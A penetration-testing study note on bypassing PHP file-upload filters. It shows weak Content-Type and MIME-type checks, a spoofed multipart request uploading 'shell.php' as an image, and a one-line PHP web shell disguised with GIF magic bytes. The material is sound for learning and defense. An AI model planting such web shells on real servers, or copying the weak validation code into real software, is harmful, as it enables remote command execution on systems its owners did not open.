 ### Overview
- Validates file content rather than extension.
- Common defense against bypasses using valid-looking extensions.
- Implemented using:
    - **Content-Type Header** (from client)
    - **MIME-Type Inspection** (based on file content)

---
## 1. **Content-Type Validation**

### Example (PHP)
```php
$type = $_FILES['uploadFile']['type'];
if (!in_array($type, array('image/jpg', 'image/jpeg', 'image/png', 'image/gif'))) {
    echo "Only images are allowed";
    die();
}
```

### Bypass Technique

- Modify **file’s Content-Type header** in Burp to a valid image type (e.g., `image/jpg`).
- Example:
```http
Content-Disposition: form-data; name="uploadFile"; filename="shell.php"
Content-Type: image/jpg
```
Often bypassed as Content-Type is **set by client** and easily spoofed.

---
## 2. **MIME-Type Validation**

### Example (PHP)
```php
$type = mime_content_type($_FILES['uploadFile']['tmp_name']);
if (!in_array($type, array('image/jpg', 'image/jpeg', 'image/png', 'image/gif'))) {
    echo "Only images are allowed";
    die();
}
```
### Bypass Technique

- Add **GIF magic bytes (GIF8)** at beginning of payload:
```bash
echo 'GIF8<?php system($_GET["cmd"]); ?>' > shell.php
```
- MIME type now resolves as:
```bash
file shell.php → shell.php: GIF image data
```
This fools `mime_content_type()` into treating it as a valid image file.

---
## Combined Filter Example

- A more secure server checks **both** Content-Type and MIME-Type.
    
- Bypass requires spoofing both headers and content structure:
    - `Content-Type: image/jpg`
    - File starts with `GIF8`, ends with PHP shell

----
## Notes

- GIF signatures are **easy to spoof** using ASCII (`GIF87a`, `GIF89a`, `GIF8`)
- MIME spoofing may not work with stricter server setups using libraries like `finfo`.
- Real-world servers often layer **multiple filters**, so combining bypasses is key.
